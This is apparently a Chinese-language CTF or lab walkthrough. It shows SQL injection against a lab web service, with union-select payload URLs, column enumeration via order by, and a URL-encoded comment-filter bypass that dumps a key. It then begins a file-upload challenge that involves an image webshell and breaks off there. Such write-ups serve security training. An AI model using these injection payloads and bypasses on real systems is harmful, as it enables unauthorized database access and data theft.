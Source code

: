 ![image-20241124111511297](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124111511297.png)

对字段2进行数据库查询

`http://11.1.10.11:34071/start/index.php?uuid=xx' union select '1',database(),'3','4','5','6`

结果为2web

在字段3进行注入，使用火狐插件（如果执行不成功，考虑是否不适配加号，需要改为空格），

![image-20241124112049334](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124112049334.png)

爆表名

![image-20241124112231351](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124112231351.png)

对IS_KEY表爆列名

![image-20241124112508943](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124112508943.png)

对haha列爆数据

![image-20241124112953765](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124112953765.png)

得到key1：0xs5kfdz

#### 方法二：绕过注释过滤

对两个过滤符进行组合，采用  `-#-空`  尝试

![image-20241124113923659](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124113923659.png)

发现-- 的注释可行，对减减空进行url编码

`http://11.1.10.11:34071/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d6' -%23-%20`

![image-20241124114907541](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124114907541.png)

接下来就可以使用order by进行列名爆破

`http://11.1.10.11:34071/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d6' order by 6 -%23-%20`

接着采用union select寻找注入点

`http://11.1.10.11:34071/start/index.php?uuid=xx' union select 1,2,3,4,5,6 -%23-%20`

后面跟方法一同样，进行数据库爆破

### 34072 文件上传

![image-20241124115607636](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124115607636.png)

一、上传正常图片查看逻辑

文件上传到了根目录     http://11.1.10.11:34072/Desert.jpg

二、上传图片马，对比器对比数据包校验逻辑
